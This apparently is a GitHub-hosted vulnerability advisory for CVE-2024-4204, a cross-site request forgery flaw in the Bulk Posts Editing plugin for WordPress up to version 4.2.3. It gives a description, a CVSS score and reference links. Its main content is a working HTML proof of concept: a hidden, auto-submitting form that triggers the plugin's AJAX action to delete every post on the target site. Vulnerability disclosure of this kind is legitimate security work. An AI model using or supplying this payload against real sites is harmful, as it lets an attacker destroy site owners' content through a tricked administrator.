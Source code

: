 ```yaml
---
layout: page
title: CVE-2024-4204
subtitle: Bulk Posts Editing For WordPress <= 4.2.3 - Cross-Site Request Forgery
---
```

## Description
The Bulk Posts Editing For WordPress plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.3. This is due to missing or incorrect nonce validation on the plugin's AJAX actions.. This makes it possible for unauthenticated attackers to create and duplicate posts, retrieve post content, and modify post taxonomy among other things via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 4.2.3

## PoC :
```
<html>
  <!-- Made by eneriii - https://twitter.com/aillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="wpbel&#95;delete&#95;posts" />
      <input type="hidden" name="delete&#95;type" value="all" />
      <input type="hidden" name="filter&#95;data&#91;search&#95;type&#93;" value="pro&#95;search" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;operator&#93;" value="exact" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;parent&#95;only&#93;" value="no" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;title&#93;&#91;operator&#93;" value="like" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;title&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;content&#93;&#91;operator&#93;" value="like" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;content&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;0&#93;&#91;taxonomy&#93;" value="category" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;0&#93;&#91;operator&#93;" value="or" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;1&#93;&#91;taxonomy&#93;" value="post&#95;tag" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;1&#93;&#91;operator&#93;" value="or" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/ithemeland-bulk-posts-editing-lite/bulk-posts-editing-for-wordpress-423-cross-site-request-forgery
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3085134%40ithemeland-bulk-posts-editing-lite%2Ftrunk&old=2946926%40ithemeland-bulk-posts-editing-lite%2Ftrunk&sfp_email=&sfph_mail=#file51
- https://www.cve.org/CVERecord?id=CVE-2024-4204




